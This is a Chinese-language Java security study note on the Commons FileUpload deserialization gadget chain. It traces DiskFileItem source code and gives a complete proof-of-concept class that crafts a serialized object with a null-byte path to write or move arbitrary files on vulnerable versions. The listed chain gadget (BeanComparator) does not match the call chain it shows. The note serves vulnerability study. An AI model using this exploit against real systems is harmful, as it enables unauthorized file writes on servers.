

# Java安全学习—FileUpload链

Author: H3rmesk1t

Data: 2022.03.15

# FileUpload 简介
The [Commons FileUpload](https://commons.apache.org/proper/commons-fileupload/index.html) package makes it easy to add robust, high-performance, file upload capability to your servlets and web applications.


# 环境配置

```xml
<dependencies>
    <dependency>
        <groupId>commons-fileupload</groupId>
        <artifactId>commons-fileupload</artifactId>
        <version>1.3</version>
    </dependency>
    <dependency>
        <groupId>commons-io</groupId>
        <artifactId>commons-io</artifactId>
        <version>2.4</version>
    </dependency>
</dependencies>
```

# 前置知识
## DiskFileItem
`org.apache.commons.fileupload.FileItem`表示在`multipart/form-data POST`请求中接收到的文件或表单项. 而`org.apache.commons.fileupload.disk.DiskFileItem`是`FileItem`的实现类, 用来封装一个请求消息实体中的全部项目, 在`FileUploadBase#parseRequest`解析时进行封装, 动作由`DiskFileItemFactory`的`createItem`方法来完成.

当上传的文件项目比较小时, 会直接保存在内存中(速度比较快); 当上传的文件项目比较大时, 以临时文件的形式保存在磁盘临时文件夹. 而在这个过程中, 就用到了几个`DiskFileItem`类中的属性:
 - repository: File 类型的成员变量, 文件保存到硬盘上的保存位置.
 - sizeThreshold: 文件大小阈值, 如果超过这个值, 上传文件将会被储存在硬盘上.
 - fileName: 原始文件名.
 - dfos: 一个`DeferredFileOutputStream`对象, 用于`OutputStream`的写出.
 - dfosFile: 一个`File`对象, 允许对其序列化的操作.
  
`DiskFileItem`重写了`readObject`方法实现了自己的逻辑, 用于在`JVM`之间迁移一个包含`DiskFileItem`的`HTTP`会话. 在类的注释中还特别强调, 在不同机器中文件储存位置`repository`可能不同, 需要验证. 也就是说如果反序列化一个带数据的`DiskFileItem`类, 就可能会触发文件的写出操作.

### writeObject
先跟进`DiskFileItem#writeObject`, 看看其实现的逻辑.

```java
private void writeObject(ObjectOutputStream out) throws IOException {
    if (this.dfos.isInMemory()) {
        this.cachedContent = this.get();
    } else {
        this.cachedContent = null;
        this.dfosFile = this.dfos.getFile();
    }

    out.defaultWriteObject();
}
```

调用`dfos.isInMemory`方法来判断文件内容是否记录在内存中, 跟进后发现其通过比较`written`的长度和`threshold`阈值长度大小来进行判断, 如果`written`大于`threshold`的话, 文件内容则会被写出到文件中.

```java
public boolean isInMemory() {
    return !this.isThresholdExceeded();
}

public boolean isThresholdExceeded() {
    return this.written > (long)this.threshold;
}
```

当`dfos.isInMemory`方法判断为`True`时, 调用`get`方法, 接着调用`dfos.getData`方法存在`dfos`成员变量`memoryOutputStream`的`ByteArrayOutputStream`对象放在`cachedContent`中.

```java
public byte[] get() {
    if (this.isInMemory()) {
        if (this.cachedContent == null) {
            this.cachedContent = this.dfos.getData();
        }

        return this.cachedContent;
    } else {......}

        return fileData;
    }
}

public byte[] getData() {
    return this.memoryOutputStream != null ? this.memoryOutputStream.toByteArray() : null;
}
```

当`dfos.isInMemory`方法判断为`False`时, 会将`cachedContent`置空, 然后将`dfosFile`赋值为`dfos`的成员变量`outputFile`对象.

```java
public File getFile() {
    return this.outputFile;
}
```

由于`dfos`是`transient`修饰的, 不能被反序列化, 所以能被反序列化的只有`byte`数组类型的`cachedContent`和`File`对象的`dfosFile`.

### readObject
接着跟进`DiskFileItem#readObject`, 看看其实现的逻辑.

```java
private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
    in.defaultReadObject();
    OutputStream output = this.getOutputStream();
    if (this.cachedContent != null) {
        output.write(this.cachedContent);
    } else {
        FileInputStream input = new FileInputStream(this.dfosFile);
        IOUtils.copy(input, output);
        this.dfosFile.delete();
        this.dfosFile = null;
    }

    output.close();
    this.cachedContent = null;
}
```

调用`getOutputStream`方法获取`OutputStream`对象, 跟进后发现`new`了一个`DeferredFileOutputStream`对象, 文件路径使用`tempFile`, 如果为空则使用`repository`, 如果还为空则使用`System.getProperty("java.io.tmpdir")`, 文件名使用`String.format("upload_%s_%s.tmp", UID, getUniqueId())`生成随机的文件名.

```java
public OutputStream getOutputStream() throws IOException {
    if (this.dfos == null) {
        File outputFile = this.getTempFile();
        this.dfos = new DeferredFileOutputStream(this.sizeThreshold, outputFile);
    }

    return this.dfos;
}

protected File getTempFile() {
    if (this.tempFile == null) {
        File tempDir = this.repository;
        if (tempDir == null) {
            tempDir = new File(System.getProperty("java.io.tmpdir"));
        }

        String tempFileName = String.format("upload_%s_%s.tmp", UID, getUniqueId());
        this.tempFile = new File(tempDir, tempFileName);
    }

    return this.tempFile;
}
```

接着对`cachedContent`进行判断, 若不为空则直接`write`, 否则将`dfosFile`文件内容拷贝到`OutputStream`中写出, 并删除该文件.

# POC
```java
package org.h3rmesk1t.FileUpload;

import org.apache.commons.fileupload.disk.DiskFileItem;
import org.apache.commons.io.output.DeferredFileOutputStream;

import java.io.*;
import java.lang.reflect.Field;
import java.nio.charset.StandardCharsets;
import java.util.Base64;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/15 9:02 下午
 */
public class FileUploadExploit {

    public static String serialize(Object obj) throws Exception {

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        byte[] expCode = byteArrayOutputStream.toByteArray();
        objectOutputStream.close();
        return Base64.getEncoder().encodeToString(expCode);
    }

    public static void unserialize(String expBase64) throws Exception {

        byte[] bytes = Base64.getDecoder().decode(expBase64);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }

    public static void main(String[] args) throws Exception {

        // 创建文件写入目录 File 对象, 以及文件写入内容.
        byte[] bytes = "Hello, H3rmesk1t".getBytes(StandardCharsets.UTF_8);

        // 1.3 版本以下, 可以使用 \0 截断
        File repository = new File("/Users/h3rmesk1t/Desktop/FileUpload/hello.txt\0");

        // 1.3.1 及以上版本, 只能指定目录
        // File File repository = new File("/Users/h3rmesk1t/Desktop/FileUpload");

        // 创建 dfos 对象.
        DeferredFileOutputStream deferredFileOutputStream = new DeferredFileOutputStream(0, repository);

        // 使用 repository 初始化反序列化的 DiskFileItem 对象.
        DiskFileItem diskFileItem = new DiskFileItem(null, null, false, null, 0, repository);

        // 序列化时 writeObject 要求 dfos 不能为 null.
        Field dfosFile = DiskFileItem.class.getDeclaredField("dfos");
        dfosFile.setAccessible(true);
        dfosFile.set(diskFileItem, deferredFileOutputStream);

        // 反射将 cachedContent 写入.
        Field cachedContentField = DiskFileItem.class.getDeclaredField("cachedContent");
        cachedContentField.setAccessible(true);
        cachedContentField.set(diskFileItem, bytes);

        // 序列化操作.
        String exp = serialize(diskFileItem);
        System.out.println(exp);

        // 反序列化操作.
        unserialize(exp);
    }
}
```

需要注意的是, 在`1.3.1`版本中, 官方对空字节截断进行了修复, 在`readObject`中, 判断成员变量`repository`是否为空, 不为空的情况下判断是不是目录, 并判断目录路径中是否包含`\0`空字符. 这种情况下, 就不能实现任意文件的写入, 只能指定目录写入内容并且文件名只能是按照代码规则去生成. 在`cachedContent`为空的情况下, 会将`dfosFile`中的内容进行拷贝, 并调用其`delete`方法删除, 利用这段代码可以完成任意文件的移动.

<div align=center></div>

# 调用链
```java
DiskFileItem.readObject()
    DiskFileItem.getOutputStream()
            DeferredFileOutputStream.write()
```

# 总结
## 利用说明
利用`DiskFileItem`反序列化会将写出文件的特性实施攻击, 借助`JDK`的空字节截断即可完成任意文件写入和任意文件移动的漏洞调用链.

## Gadget
 - kick-off gadget: org.apache.commons.fileupload.disk.DiskFileItem#readObject
 - sink gadget: org.apache.commons.fileupload.disk.DiskFileItem#getOutputStream
 - chain gadget: org.apache.commons.beanutils.BeanComparator#compare

## 漏洞利用方式
 - `FileUpload`的`1.3.1`之前的版本配合`JDK1.7`之前的版本, 能够达到写入任意文件的漏洞.
 - `FileUpload`的`1.3.1`之前的版本配合`JDK1.7`及其之后的版本, 能够向任意目录写入文件.
 - `FileUpload`的`1.3.1`以及之后的版本只能向特定目录写入文件且此目录也必须存在, 文件的的命名也无法控制.

# 参考
 - [FileUpload1](https://su18.org/post/ysoserial-su18-4/#:~:text=%E5%8E%9F%E7%90%86%20%23%20%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0-,FileUpload1,-FileUpload%20%E7%BB%84%E4%BB%B6)